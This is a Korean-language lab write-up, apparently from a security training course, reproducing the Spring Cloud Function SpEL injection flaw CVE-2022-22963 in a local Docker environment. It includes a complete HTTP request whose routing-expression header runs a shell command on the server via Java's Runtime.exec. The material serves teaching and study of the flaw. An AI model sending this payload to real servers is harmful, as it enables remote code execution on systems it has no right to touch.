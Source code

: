 
# Spring Cloud Function SpEL 코드 주입 (CVE-2022-22963)

> 화이트햇 스쿨 3기 (33반) - [조민형 (@foskingson)](https://github.com/foskingson)

<br/>

### 📖 **목차**  

1. [요약](#요약)  
2. [취약한 환경 구성](#취약한-환경-구성)  
3. [취약점 재현](#취약점-재현)  
4. [Pull Request 링크](#Pull-Request-링크)  
5. [참고 자료](#참고-자료)  

<br/>

### 📌 **요약**

**Spring Cloud Function**은 AWS Lambda와 같은 **FaaS(Function as a Service)** 플랫폼을 포함하여 다양한 플랫폼에서 함수 기반 소프트웨어를 배포할 수 있도록 지원하는 공통 모델을 제공한다.  
그러나 **Spring Cloud Function 3.2.2 버전**에는 **SpEL(Spring Expression Language)을 통한 코드 주입 취약점**이 존재하며, 이를 악용해 **원격에서 명령어를 실행할 수 있다.**

<br/>

### 🛠️ **취약한 환경 구성**

1. 아래의 **참고자료 1번**을 참고하여 로컬 환경에 `docker-compose.yml` 파일 작성  
2. `docker-compose.yml`이 위치한 경로로 이동  
3. `docker compose up` 명령어를 통해 도커 컨테이너 실행  
   - 이미지가 로컬에 없다면 자동으로 설치됨 (`docker pull`)  
   - `docker compose up --build`를 통해 이미지 새로 빌드 가능  

<p align="center">
  <img src="./1.png" alt="환경 구성" width="700"/>
</p>

<br/>

### 🧪 **취약점 재현**

#### 1. **스프링 서버 정상 실행 확인**

도커 컨테이너 실행 후 아래와 같은 기본 페이지가 나타나면 **정상적으로 서버가 열린 것**이다.

<p align="center">
  <img src="./2.png" alt="스프링 웹서버 기본 화면" width="700"/>
</p>

#### 2. **SpEL 삽입을 통한 명령어 실행**

요청 헤더에 `spring.cloud.function.routing-expression` 값을 통해 **SpEL 표현식을 삽입**하고,  
대상 서버에서 `touch /tmp/success` **명령어를 실행**한다.

- 파이썬 코드 실행 (`python vulhub.py`)  
- 성공 시 `/tmp` 디렉토리에 `success` 파일이 생성됨

```http
POST /functionRouter HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
spring.cloud.function.routing-expression: T(java.lang.Runtime).getRuntime().exec("touch /tmp/success")
Content-Type: text/plain
Content-Length: 4
```

#### 3. **success 파일 존재 확인**

`docker compose exec spring bash` 명령어로 컨테이너 내부 bash에 접속하여  
`/tmp` 디렉토리에서 `success` 파일을 확인할 수 있다.

- `docker compose exec spring bash`: `spring`이라는 컨테이너 안에서 bash 쉘을 실행하는 명령어

<p align="center">
  <img src="./3.png" alt="공격 성공" width="700"/>
</p>

<br/>

### 📚 **참고 자료**

1. [Vulhub GitHub - CVE-2022-22963 환경 구성](https://github.com/vulhub/vulhub/tree/master/spring/CVE-2022-22963)  
2. [VMware 공식 보안 공지](https://tanzu.vmware.com/security/cve-2022-22963)  
3. [중국 블로그의 공격 예시](https://mp.weixin.qq.com/s/onYJWIESgLaWS64lCgsKdw)  
4. [Spring Cloud Function 패치 커밋](https://github.com/spring-cloud/spring-cloud-function/commit/0e89ee27b2e76138c16bcba6f4bca906c4f3744f)  
